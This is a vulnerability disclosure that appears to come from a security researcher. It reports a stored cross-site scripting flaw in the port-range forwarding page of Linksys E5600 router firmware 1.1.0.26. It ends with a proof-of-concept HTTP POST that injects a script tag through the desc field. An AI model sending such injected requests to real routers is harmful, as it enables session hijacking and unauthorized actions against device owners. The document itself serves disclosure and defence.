 ```yaml
---
typora-root-url: ..\images
---
```


# TARGET
Linksys E5600 Router
Firmware Version:1.1.0.26


# BUG TYPE
Cross-Site Scripting(XSS)

# Abstract
The dynamic string concatenation (prf_table_content = prf_table_content + ...) lacks proper escaping and filtering, especially for user-controlled fields like element.desc. This field is directly embedded into the HTML without sanitization, allowing attackers to inject malicious scripts, resulting in potential XSS vulnerabilities.

# Details

\squashfs-root\www\pages\setting\security\setting-security-portrangefowarding.html

![](/Snipaste_2025-01-07_19-39-11.png)
The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) used in the construction of the HTML table lacks proper escaping and filtering, specifically in the handling of user-controlled data such as the `element.desc` field. The `element.desc` field is directly embedded into the HTML output without sanitization, making it possible for attackers to inject malicious JavaScript or HTML content.Successful exploitation of this vulnerability could allow attackers to perform unauthorized actions, steal sensitive information, or hijack user sessions.

![](/2025-01-07 194217.png)
An attacker can craft malicious inputs that are injected into a similar data structure via external sources such as API requests, malicious configuration files, or specially crafted HTTP requests. These inputs are rendered into the web interface without proper sanitization, enabling the execution of injected JavaScript code when the victim accesses the affected page.

![](/Snipaste_2025-01-07_19-49-00.png)


POC
```
POST /API/obj HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/setting.html
Cookie: HSESSIONID=19216811221637991217
Priority: u=0

{
    "portRangeForward": {
        "PortRangeForwardT": [
            {
                "desc": "<script>alert('XSS')</script>",
                "externalPortStart": "2",
                "externalPortEnd": "6",
                "proto": "both",
                "deviceIp": "192.168.1.22",
                "enable": "0",
                "name": "prf0"
            }
        ]
    }
}
```
